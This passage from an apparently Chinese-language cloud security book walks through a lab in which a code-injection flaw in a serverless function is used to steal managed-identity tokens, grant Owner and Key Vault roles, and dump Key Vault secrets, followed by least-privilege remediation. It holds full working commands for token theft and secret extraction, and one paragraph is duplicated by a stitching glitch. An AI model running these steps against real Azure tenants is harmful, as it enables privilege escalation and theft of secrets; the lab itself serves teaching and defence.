##### 12. 生成一个唯一标识符并将结果值存储到环境变量（`ROLE_ASSIGNMENT_ID`）中：

```
ROLE_ASSIGNMENT_ID=$(uuidgen)
```

##### 13. 将 Owner 角色分配给无服务器函数的托管标识：

```
URL_1="https://management.azure.com/subscriptions/$SUBSCRIPTION_ID"
URL_2="providers/Microsoft.Authorization"
URL_3="roleAssignments/$ROLE_ASSIGNMENT_ID?api-version=2022-04-01"

URL="$URL_1/$URL_2/$URL_3"

curl -X PUT $URL \
     -H "Authorization: Bearer $ACCESS_TOKEN" \
     -H "Content-Type: application/json" \
     -d "{
           \"properties\": {
             \"roleDefinitionId\": \"$OWNER_ROLE_ID\",
             \"principalId\": \"$PRINCIPAL_ID\"
           }
         }"
```

#### Note

由于托管标识已被授予 User Access Administrator 角色，因此拥有其访问令牌的攻击者可以将其权限提升为 Owner（或其他任何角色）。

##### 14. 检查 Key Vault Secrets Officer 角色的详细信息以查看其权限和范围：

```
az role definition list --name "Key Vault Secrets Officer" -o json
```

这会产生以下输出：

```
[
  {
    "assignableScopes": [
      "/"
    ],
    "createdBy": null,
    "createdOn": "2020-05-19T17:52:47.144924+00:00",
    "description": "Perform any action on the secrets of a key vault...",
    "id": ".../roleDefinitions/b86a8fe4-44ce-4948-aee5-eccb2c155cd7",
    "name": "b86a8fe4-44ce-4948-aee5-eccb2c155cd7",
    "permissions": [
      {
        "actions": [
          "Microsoft.Authorization/*/read",
          "Microsoft.Insights/alertRules/*",
          "Microsoft.Resources/deployments/*",
          "Microsoft.Resources/subscriptions/resourceGroups/read",
          "Microsoft.Support/*",
          "Microsoft.KeyVault/checkNameAvailability/read",
          "Microsoft.KeyVault/deletedVaults/read",
          "Microsoft.KeyVault/locations/*/read",
          "Microsoft.KeyVault/vaults/*/read",
          "Microsoft.KeyVault/operations/read"
        ],
        "condition": null,
        "conditionVersion": null,
        "dataActions": [
          "Microsoft.KeyVault/vaults/secrets/*"
        ],
        "notActions": [],
        "notDataActions": []
      }
    ],
    "roleName": "Key Vault Secrets Officer",
    "roleType": "BuiltInRole",
    "type": "Microsoft.Authorization/roleDefinitions",
    "updatedBy": null,
    "updatedOn": "2021-11-11T20:14:30.779347+00:00"
  }
]
```

在此，使用 Key Vault Secrets Officer 角色的主体可以对 Key Vault 的密钥执行任何操作，但管理权限除外。

##### 15. 检索 Key Vault Secrets Officer 角色定义 ID 并将其存储到环境变量（`ROLE_DEFINITION_ID`）中：

```
ROLE_DEFINITION_DETAILS=$(az role definition list \
  --name "Key Vault Secrets Officer" -o json)

ROLE_DEFINITION_ID=$(echo $ROLE_DEFINITION_DETAILS | jq -r '.[0].id')
echo $ROLE_DEFINITION_ID
```

##### 16. 生成一个唯一标识符并将结果值存储到环境变量（`ROLE_ASSIGNMENT_ID`）中：

```
ROLE_ASSIGNMENT_ID=$(uuidgen)
```

##### 17. 将 Key Vault Secrets Officer 角色分配给 Azure 函数的托管标识：

```
URL_1="https://management.azure.com/subscriptions/$SUBSCRIPTION_ID"
URL_2="resourceGroups/$RESOURCE_GROUP/providers"
URL_3="Microsoft.KeyVault/vaults/$KEYVAULT_NAME"
URL_4="providers/Microsoft.Authorization"
URL_5="roleAssignments/$ROLE_ASSIGNMENT_ID?api-version=2022-04-01"

URL="$URL_1/$URL_2/$URL_3/$URL_4/$URL_5"

curl -X PUT $URL \
     -H "Authorization: Bearer $ACCESS_TOKEN" \
     -H "Content-Type: application/json" \
     -d "{
           \"properties\": {
             \"roleDefinitionId\": \"$ROLE_DEFINITION_ID\",
             \"principalId\": \"$PRINCIPAL_ID\"
           }
         }"
```

由于命令中使用的 `PRINCIPAL_ID` 对应于无服务器函数的托管标识的 OID，因此该角色分配授予该标识根据 Key Vault Secrets Officer 角色的权限对 Key Vault 密钥执行操作的能力。

#### Note

鉴于托管标识已被授予 User Access Administrator 和 Owner 角色，因此拥有其访问令牌的攻击者可以为其分配 Key Vault Secrets Officer 角色（或其他任何角色）。如果你想知道为什么需要单独分配 Key Vault Secrets Officer 角色，那是因为 Owner 角色仅授予对 Key Vault 资源的管理平面管理权限（不包括访问其中的密钥）。要读取或修改密钥（数据平面操作），托管标识还需要 Key Vault 特定角色，例如 Key Vault Secrets Officer。

让我们快速回顾一下你目前所拥有的内容。如 Figure 12-2 所示，你有一个无服务器函数，其托管标识关联了以下角色：Contributor、User Access Administrator、Owner 和 Key Vault Secrets Officer。



由于函数应用的托管标识现在具有访问 Key Vault 密钥的权限，你将能够通过泄露的访问令牌直接检索密钥。此外，由于托管标识拥有 Owner 级别权限，因此获得其访问令牌的攻击者可以执行控制平面操作，例如分配或修改角色，从而可能被利用以获得数据平面访问权限。这意味着攻击者还可以使用托管标识访问 Serverless Lab 账户中的其他 Azure 资源，其影响范围取决于资源范围和角色分配。

##### 1. 准备就绪后，让我们运行 `tester.rb` 脚本：

```
ruby tester.rb
```

##### 2. 在脚本的 REPL 中输入 `Enter an expression (or type 'exit' to quit)` 之后，作为单行运行此命令以使用托管标识获取访问令牌。将输出值（`[OUTPUT RESPONSE]` 之后的部分）复制到本地文本文件（TAG：`ACCESS_TOKEN`）：

```
require("child_process").execSync(
   `curl -s -H "X-IDENTITY-HEADER: ${process.env.IDENTITY_HEADER}"
   "${process.env.IDENTITY_ENDPOINT}
   ?resource=https://management.azure.com/&api-version=2019-08-01"`,
   { encoding: "utf8" }
);
```

作为单行运行此命令以使用托管标识获取另一个访问令牌。将输出值（`[OUTPUT RESPONSE]` 之后的部分）复制到本地文本文件（TAG：`ACCESS_TOKEN_2`）：


```
require("child_process").execSync(
   `curl -s -H "X-IDENTITY-HEADER: ${process.env.IDENTITY_HEADER}"
   "${process.env.IDENTITY_ENDPOINT}
   ?resource=https://vault.azure.net/&api-version=2019-08-01"`,
   { encoding: "utf8" }
);
```

这会产生以下 JSON 输出：

```
{
  "access_token": "...",
  "expires_on": "...",
  "resource": "https://vault.azure.net/",
  "token_type": "Bearer",
  "client_id": "..."
}
```

#### Note

此时，你本地机器中的参考文本文件应包含以下额外值：`ACCESS_TOKEN`、`ACCESS_TOKEN_2`。

输入 `exit` 并按 Enter 停止脚本并返回到命令行。

3. 从你的参考文本文件中复制第一个访问令牌值（TAG：`ACCESS_TOKEN`）并将其存储在 Cloud Shell 终端中的环境变量（`ACCESS_TOKEN`）中：

```
ACCESS_TOKEN="[SPECIFY ACCESS TOKEN]"
```

4. 从你的参考文本文件中复制第二个访问令牌值（TAG：`ACCESS_TOKEN_2`）并将其存储在 Cloud Shell 终端中的环境变量（`ACCESS_TOKEN_2`）中：

```
ACCESS_TOKEN_2="[SPECIFY ACCESS TOKEN]"
```

5. 使用第一个获取的访问令牌（`ACCESS_TOKEN`）查询所有 Key Vault：

```
URL_1="https://management.azure.com/subscriptions/$SUBSCRIPTION_ID"
URL_2="providers/Microsoft.KeyVault/vaults?api-version=2022-07-01"
URL="$URL_1/$URL_2"

RESPONSE=$(curl -s -H "Authorization: Bearer $ACCESS_TOKEN" \
     -H "Content-Type: application/json" \
     "$URL")

echo $RESPONSE | jq "."
```

这会产生以下输出：

```
{
  "value": [
    {
      "id": "/.../vaults/keyvault...",
      "name": "keyvault...",
      "type": "Microsoft.KeyVault/vaults",
      "location": "eastus",
      "tags": {},
      "systemData": {...},
      "properties": {
        "sku": {
          "family": "A",
          "name": "standard"
        },
        "tenantId": "...",
        "accessPolicies": [],
        "enabledForDeployment": false,
        "enableSoftDelete": true,
        "softDeleteRetentionInDays": 90,
        "enableRbacAuthorization": true,
        "vaultUri": "...",
        "provisioningState": "Succeeded",
        "publicNetworkAccess": "Enabled"
      }
    }
  ],
  "nextLink": "..."
```

6. 从响应中提取 Key Vault 名称并将其存储在环境变量（`KEYVAULT_NAME`）中：

```
KEYVAULT_NAME=$(echo $RESPONSE | jq -r ".value.[].name")
```

7. 使用另一个访问令牌（`ACCESS_TOKEN_2`）列出 Key Vault 中的所有机密：

```
curl -s -H "Authorization: Bearer $ACCESS_TOKEN_2" \
     -H "Content-Type: application/json" \
     "https://${KEYVAULT_NAME}.vault.azure.net/secrets?api-version=7.5" \
     | jq .
```

这会产生以下 JSON 输出：

```
{
  "value": [
    {
      "id": "https://keyvault....vault.azure.net/secrets/secret00",
      "attributes": {
        "enabled": true,
        "created": ...,
        "updated": ...,
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
      },
      "tags": {
        "file-encoding": "utf-8"
      }
    },
    {
      "id": "https://keyvault....vault.azure.net/secrets/secret01",
      "attributes": {
        "enabled": true,
        "created": ...,
        "updated": ...,
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
      },
      "tags": {
        "file-encoding": "utf-8"
      }
    }
  ],
  "nextLink": null
}
```

8. 使用第二个访问令牌（`ACCESS_TOKEN_2`）从 Key Vault 中检索所有机密：

```
SECRETS_RESPONSE=$(curl -s -H "Authorization: Bearer $ACCESS_TOKEN_2" \
     -H "Content-Type: application/json" \
     "https://${KEYVAULT_NAME}.vault.azure.net/secrets?api-version=7.5")

for SECRET_ID in $(echo "$SECRETS_RESPONSE" | jq -r '.value[].id'); do
    curl -s -H "Authorization: Bearer $ACCESS_TOKEN_2" \
         -H "Content-Type: application/json" \
         "${SECRET_ID}?api-version=7.5" | jq '{name: .id, value: .value}'
done
```

这会以类似以下格式输出机密值：

```
{
  "name": "https://keyvault....vault.azure.net/secrets/secret00/...",
  "value": "SECRETABC123"
}
{
  "name": "https://keyvault....vault.azure.net/secrets/secret01/...",
  "value": "SECRETDEF456"
}
```

使用被窃取的访问令牌，你能够修改托管标识的角色分配，赋予其所有者和 Key Vault 机密管理员权限，并访问 Key Vault 中存储的机密。此时，你应该对过度宽松的托管标识如何被用来提升权限并危害敏感资源有很好的了解。

从防御安全角度来看，你应为托管标识和服务主体强制执行最小权限，限制角色分配范围，并监控控制平面活动，以便快速检测和补救滥用情况。你将在下一节中对函数应用关联的托管标识强制执行最小权限。

### 对函数应用托管标识应用最小权限

在本节中，你将通过审查和调整先前授予函数应用托管标识的角色分配，来应用最小权限原则。在确保配置安全后，你将运行一系列恶意测试输入，以确认函数按预期安全地拒绝它们。这类似于将门禁卡限制为员工实际需要访问的房间或楼层，以降低未经授权进入的风险。

让我们逐步进行为无服务器函数关联的托管标识强制执行最小权限的步骤：

1. 切换回浏览器窗口和 Serverless Lab 账户的 Cloud Shell 终端。

2. 通过加载环境变量并运行以下命令，获取函数应用托管标识的主体 ID：

```
source ~/vulnerable-function/function-vars.sh

DETAILS=$(az functionapp identity show \
  --name $FUNCTION_APP \
  --resource-group $RESOURCE_GROUP)

PRINCIPAL_ID=$(echo $DETAILS | jq -r ".principalId")
```

#### Tip

运行 `echo $PRINCIPAL_ID` 以打印主体 ID 并确保其已成功检索。

3. 列出函数应用托管标识的所有角色分配以验证其当前权限：

```
az role assignment list \
  --assignee $PRINCIPAL_ID \
  --all \
  -o table
```

这会返回以下值表：

```
Principal  Role                       Scope
---------  -------------------------  -------------------------
...        Contributor                /subscriptions/...
...        User Access Administrator  /subscriptions/...
...        Owner                      /subscriptions/...
...        Key Vault Secrets Officer  /.../vaults/keyvault...
```

4. 以 JSON 格式列出函数应用托管标识的所有角色分配，然后仅显示主体 ID、角色和范围：

```
az role assignment list \
  --assignee $PRINCIPAL_ID \
  --all \
  -o json | \
  jq '[.[] |
        { principal: .principalId,
          role: .roleDefinitionName,
          scope: .scope }]'
```

这会返回以下内容：


```
[
  {
    "principal": "...",
    "role": "Contributor",
    "scope": "/subscriptions/..."
  },
  {
    "principal": "...",
    "role": "User Access Administrator",
    "scope": "/subscriptions/..."
  },
  {
    "principal": "...",
    "role": "Owner",
    "scope": "/subscriptions/..."
  },
  {
    "principal": "...",
    "role": "Key Vault Secrets Officer",
    "scope": "/.../vaults/keyvault..."
  }
]
```

5. 将托管标识的完整角色分配列表存储到环境变量（`ASSIGNMENT_LIST_FULL`）中：

```
ASSIGNMENT_LIST_FULL=$(az role assignment list \
  --assignee $PRINCIPAL_ID \
  --all \
  -o json)

ASSIGNMENT_LIST=$(echo $ASSIGNMENT_LIST_FULL | \
  jq '[.[] |
        { principal: .principalId,
          role: .roleDefinitionName,
          scope: .scope }]')

echo $ASSIGNMENT_LIST | jq .
```

这会产生以下输出响应：

```
[
  {
    "principal": "...",
    "role": "Contributor",
    "scope": "/subscriptions/..."
  },
  {
    "principal": "...",
    "role": "User Access Administrator",
    "scope": "/subscriptions/..."
  },
  {
    "principal": "...",
    "role": "Owner",
    "scope": "/subscriptions/..."
  },
  {
    "principal": "...",
    "role": "Key Vault Secrets Officer",
    "scope": ".../vaults/keyvault..."
  }
]
```

6. 遍历 `ASSIGNMENT_LIST` 中的每个角色分配并删除托管标识对应的角色分配：

```
echo "$ASSIGNMENT_LIST" | jq -c '.[]' | while read assignment; do
    PRINCIPAL=$(echo "$assignment" | jq -r '.principal')
    ROLE=$(echo "$assignment" | jq -r '.role')
    SCOPE=$(echo "$assignment" | jq -r '.scope')

    echo "Deleting role assignment: $ROLE for principal $PRINCIPAL on $SCOPE"

    az role assignment delete \
        --assignee "$PRINCIPAL" \
        --role "$ROLE" \
        --scope "$SCOPE"
done
```

这会产生以下日志输出：

```
Deleting role assignment: Contributor for principal ...
on /subscriptions/...
Deleting role assignment: User Access Administrator for principal ...
on /subscriptions/...
Deleting role assignment: Owner for principal ...
on /subscriptions/...
Deleting role assignment: Key Vault Secrets Officer for principal ...
on /subscriptions/.../resourceGroups/rg-serverless-security-lab
/providers/Microsoft.KeyVault/vaults/keyvault...
```

#### Tip

在实践中，团队可能会犹豫修改资源权限，因为错误更改可能会破坏应用程序。建议仔细审查无服务器应用程序中每个资源的最小必需权限，先在开发或暂存环境中测试更改，并使用自动化脚本或 IaC 来强制执行一致且安全的角色分配。^1

7. 再次列出托管标识的所有角色分配，以验证角色分配已成功移除：

```
az role assignment list \
  --assignee $PRINCIPAL_ID \
  --all \
  -o json
```

这会输出以下内容：

```
[]
```

#### Caution

确保在继续之前使用 `curl` 命令和示例表达式测试该函数。如果函数没有输出任何内容，请使用 `func azure functionapp publish` 命令发布它。然后重试请求。

让我们快速回顾一下你目前的进展。此时，函数应用的托管标识没有任何活动的角色分配（Figure 12-3）。在保护无服务器函数时，应仅分配函数运行所需的最小角色集。具体的角色分配取决于函数代码需要访问的资源——例如，从 Key Vault 读取密钥、向存储写入日志，或在订阅中管理资源。由于 `evaluate.js`（无服务器函数代码）不再需要访问 Key Vault 密钥，因此在最小权限上下文中，托管标识不需要 Key Vault 权限即可完成其工作。



让我们现在验证即使攻击者利用代码注入漏洞并窃取托管标识访问令牌，也仍然无法读取 Key Vault 密钥，因为令牌缺少访问密钥所需的权限：

1. 切换回攻击者账户的浏览器窗口和 Cloud Shell 终端。

2. 运行 `tester.rb` 脚本：

```
ruby tester.rb
```

作为单行运行此命令以使用托管标识获取新的访问令牌。将输出值（`[OUTPUT RESPONSE]` 之后）复制到本地文本文件（TAG：`NEW_ACCESS_TOKEN`）：

```
require("child_process").execSync(
   `curl -s -H "X-IDENTITY-HEADER: ${process.env.IDENTITY_HEADER}"
   "${process.env.IDENTITY_ENDPOINT}
   ?resource=https://management.azure.com/&api-version=2019-08-01"`,
   { encoding: "utf8" }
);
```

这会返回以下输出响应：

```
{
  "access_token": "...",
  "expires_on": "...",
  "resource": "https://management.azure.com/",
  "token_type": "Bearer",
  "client_id": "..."
}
```

#### Caution

如果运行命令后没有收到任何输出，请切换回无服务器实验室账户的浏览器窗口和 Cloud Shell 终端，然后使用 `func azure functionapp publish` 命令发布函数。

作为单行运行此命令以使用托管标识获取新的访问令牌。将输出值（`[OUTPUT RESPONSE]` 之后）复制到本地文本文件（TAG：`NEW_ACCESS_TOKEN_2`）：

```
require("child_process").execSync(
   `curl -s -H "X-IDENTITY-HEADER: ${process.env.IDENTITY_HEADER}"
   "${process.env.IDENTITY_ENDPOINT}
   ?resource=https://vault.azure.net/&api-version=2019-08-01"`,
   { encoding: "utf8" }
);
```

这会产生以下 JSON 输出：

```
{
  "access_token": "...",
  "expires_on": "...",
  "resource": "https://vault.azure.net/",
  "token_type": "Bearer",
  "client_id": "..."
}
```

输入 `exit` 并按 Enter 停止脚本并返回到命令行。

3. 从参考文本文件中复制第一个访问令牌值（TAG：`NEW_ACCESS_TOKEN`）并将其存储在 Cloud Shell 终端中的环境变量（`NEW_ACCESS_TOKEN`）中：

```
NEW_ACCESS_TOKEN="[SPECIFY ACCESS TOKEN]"
```

4. 从参考文本文件中复制第二个访问令牌值（TAG：`NEW_ACCESS_TOKEN_2`）并将其存储在 Cloud Shell 终端中的环境变量（`ACCESS_TOKEN_2`）中：

```
NEW_ACCESS_TOKEN_2="[SPECIFY ACCESS TOKEN]"
```

5. 使用第一个访问令牌（`NEW_ACCESS_TOKEN`）查询订阅中的所有 Key Vault：

```
URL_PART1="https://management.azure.com/subscriptions/$SUBSCRIPTION_ID"
URL_PART2="providers/Microsoft.KeyVault/vaults?api-version=2022-07-01"

RESPONSE=$(curl -s -H "Authorization: Bearer $NEW_ACCESS_TOKEN" \
     -H "Content-Type: application/json" \
     "$URL_PART1/$URL_PART2")

echo $RESPONSE | jq "."
```

这会产生类似以下的错误消息：

```
{
  "error": {
    "code": "AuthorizationFailed",
    "message": "The client '...' with object id '...' does not have
    authorization to perform action 'Microsoft.KeyVault/vaults/read' over
    scope '/subscriptions/...' or the scope is invalid. If access was
    recently granted, please refresh your credentials."
  }
}
```

#### Note


这是可以预期的，因为该令牌没有查询 Key Vault 所需的角色分配或权限。

6. 假设 Key Vault 名称已知，使用新的访问令牌列出 Key Vault 中的所有密钥应会因授权错误而失败：

```
URL="https://${KEYVAULT_NAME}.vault.azure.net/secrets?api-version=7.5"

curl -s -H "Authorization: Bearer $NEW_ACCESS_TOKEN_2" \
     -H "Content-Type: application/json" \
     "$URL" | jq .
```

运行该命令将产生类似以下内容的错误消息：

```
{
  "error": {
    "code": "Forbidden",
    "message": "Caller is not authorized to perform action on resource...",
    "innererror": {
      "code": "ForbiddenByRbac"
    }
  }
}
```

你已通过应用最小权限原则成功保护了函数应用的托管标识。^2 从防御性安全角度来看，你应定期审查所有角色分配，以确保未授予过度的权限。此外，监控访问日志以查找异常活动，并在函数中强制执行安全编码实践，以防止攻击者利用代码注入等漏洞。[content]

这是可以预期的，因为该令牌没有查询 Key Vault 所需的角色分配或权限。

6. 假设 Key Vault 名称已知，使用新的访问令牌列出 Key Vault 中的所有密钥应会因授权错误而失败：

```
URL="https://${KEYVAULT_NAME}.vault.azure.net/secrets?api-version=7.5"

curl -s -H "Authorization: Bearer $NEW_ACCESS_TOKEN_2" \
     -H "Content-Type: application/json" \
     "$URL" | jq .
```

运行该命令将产生类似以下内容的错误消息：

```
{
  "error": {
    "code": "Forbidden",
    "message": "Caller is not authorized to perform action on resource...",
    "innererror": {
      "code": "ForbiddenByRbac"
    }
  }
}
```

你已通过应用最小权限原则成功保护了函数应用的托管标识。^2 从防御性安全角度来看，你应定期审查所有角色分配，以确保未授予过度的权限。此外，监控访问日志以查找异常活动，并在函数中强制执行安全编码实践，以防止攻击者利用代码注入等漏洞。一起，这些措施有助于最大限度地降低权限提升的风险并保护环境中的敏感资源。

#### Caution

不要急于清理你的资源，因为它们将在下一章的动手示例和模拟中用到。

## Summary

在本章中，你研究了过度宽松的托管标识如何被滥用于权限提升。在升级了设计上存在漏洞的无服务器函数并以更严格的角色集配置其托管标识后，你模拟了一次攻击，该攻击提取了令牌、提升了角色并访问了 Key Vault 密钥。然后，你通过删除不必要的角色分配来保护函数，以强制执行最小权限。

在下一章中，你将在此基础上探索更多技术和最佳实践，以保护你的无服务器应用程序。你将学习如何利用自动化工具、安全编码实践和自定义脚本，进一步保护你的应用程序免受代码注入、供应链攻击和其他新兴威胁。

^1 记录权限更改也有助于防止生产环境中出现意外问题和停机。

^2 然而，无服务器函数仍然包含代码注入漏洞，你将在 Chapter 13 中解决并修复该漏洞。
